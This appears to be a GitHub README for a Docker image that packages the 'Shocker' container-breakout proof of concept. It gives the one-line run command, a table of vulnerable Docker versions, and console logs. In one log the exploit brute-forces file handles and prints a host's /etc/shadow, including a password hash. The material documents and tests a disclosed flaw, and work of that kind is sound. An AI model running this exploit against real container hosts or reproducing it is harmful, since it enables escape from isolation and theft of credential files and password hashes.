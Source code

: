 # Shocker / Docker Breakout PoC

This is a Docker Image used to test container breakout exploit first posted here:
http://stealth.openwall.net/xSports/shocker.c

The container will attempt to find and print contents of the Docker host's /etc/shadow.

## Usage

To run the PoC exploit use:

    docker run gabrtv/shocker

## Building

To modify source and rebuild, use:

    docker build -t gabrtv/shocker .

## Vulnerability Matrix

Simple table outlining vulnerability to **this particular** exploit.  PRs welcome!

| Docker Version | Docker Host OS    | Vulnerable? |
| -------------- | ----------------- | ----------- |
| 0.10.0         | Ubuntu 12.04 LTS  | Yes         |
| 0.11.0         | Ubuntu 12.04 LTS  | Yes         |
| 0.11.1         | CoreOS v324.2.0   | Yes         |
| 0.11.1         | Ubuntu 12.04 LTS  | Yes         |
| 0.12.0         | Ubuntu 12.04 LTS  | No          |
| 1.0            | Boot2Docker       | No          |
| 1.0            | CoreOS v343.0.0+  | No          |
| 1.0            | Ubuntu 12.04 LTS  | No          |

## Examples

Confirmed vulnerable: Docker 0.11.1 running Ubuntu 12.04 LTS

```
root@precise64:~# docker version
Client version: 0.11.1
Client API version: 1.11
Go version (client): go1.2.1
Git commit (client): fb99f99
Server version: 0.11.1
Server API version: 1.11
Git commit (server): fb99f99
Go version (server): go1.2.1
Last stable version: 1.0.0, please update docker

root@precise64:~# docker info
Containers: 6
Images: 10
Storage Driver: aufs
 Root Dir: /var/lib/docker/aufs
 Dirs: 22
Execution Driver: native-0.2
Kernel Version: 3.8.0-42-generic
WARNING: No swap limit support

root@precise64:~# docker run gabrtv/shocker
[***] docker VMM-container breakout Po(C) 2014             [***]
[***] The tea from the 90's kicks your sekurity again.     [***]
[***] If you have pending sec consulting, I'll happily     [***]
[***] forward to my friends who drink secury-tea too!      [***]
[*] Resolving 'etc/shadow'
[*] Found vmlinuz
[*] Found vagrant
[*] Found lib64
[*] Found usr
[*] Found ...
[*] Found etc
[+] Match: etc ino=3932161
[*] Brute forcing remaining 32bit. This can take a while...
[*] (etc) Trying: 0x00000000
[*] #=8, 1, char nh[] = {0x01, 0x00, 0x3c, 0x00, 0x00, 0x00, 0x00, 0x00};
[*] Resolving 'shadow'
[*] Found timezone
[*] Found cron.hourly
...
[*] Found skel
[*] Found shadow
[+] Match: shadow ino=3935729
[*] Brute forcing remaining 32bit. This can take a while...
[*] (shadow) Trying: 0x00000000
[*] #=8, 1, char nh[] = {0xf1, 0x0d, 0x3c, 0x00, 0x00, 0x00, 0x00, 0x00};
[!] Got a final handle!
[*] #=8, 1, char nh[] = {0xf1, 0x0d, 0x3c, 0x00, 0x00, 0x00, 0x00, 0x00};
[!] Win! /etc/shadow output follows:
root:!:15597:0:99999:7:::
daemon:*:15597:0:99999:7:::
bin:*:15597:0:99999:7:::
sys:*:15597:0:99999:7:::
sync:*:15597:0:99999:7:::
games:*:15597:0:99999:7:::
man:*:15597:0:99999:7:::
lp:*:15597:0:99999:7:::
mail:*:15597:0:99999:7:::
news:*:15597:0:99999:7:::
uucp:*:15597:0:99999:7:::
proxy:*:15597:0:99999:7:::
www-data:*:15597:0:99999:7:::
backup:*:15597:0:99999:7:::
list:*:15597:0:99999:7:::
irc:*:15597:0:99999:7:::
gnats:*:15597:0:99999:7:::
nobody:*:15597:0:99999:7:::
libuuid:!:15597:0:99999:7:::
syslog:*:15597:0:99999:7:::
messagebus:*:15597:0:99999:7:::
ntp:*:15597:0:99999:7:::
sshd:*:15597:0:99999:7:::
vagrant:$6$aqzOtgCM$OxgoMP4JoqMJ1U1F3MZPo2iBefDRnRCXSfgIM36E5cfMNcE7GcNtH1P/tTC2QY3sX3BxxJ7r/9ciScIVTa55l0:15597:0:99999:7:::
vboxadd:!:15597::::::
statd:*:15597:0:99999:7:::
```

Exploit fails on Docker 0.12:

```
root@precise64:~# docker version
Client version: 0.12.0
Client API version: 1.12
Go version (client): go1.2.1
Git commit (client): 14680bf
Server version: 0.12.0
Server API version: 1.12
Go version (server): go1.2.1
Git commit (server): 14680bf

root@precise64:~# docker info
Containers: 5
Images: 10
Storage Driver: aufs
 Root Dir: /var/lib/docker/aufs
 Dirs: 20
Execution Driver: native-0.2
Kernel Version: 3.8.0-42-generic
WARNING: No swap limit support

root@precise64:~# docker run gabrtv/shocker
[***] docker VMM-container breakout Po(C) 2014             [***]
[***] The tea from the 90's kicks your sekurity again.     [***]
[***] If you have pending sec consulting, I'll happily     [***]
[***] forward to my friends who drink secury-tea too!      [***]
[*] Resolving 'etc/shadow'
[-] open_by_handle_at: Operation not permitted
```

## License

BSD
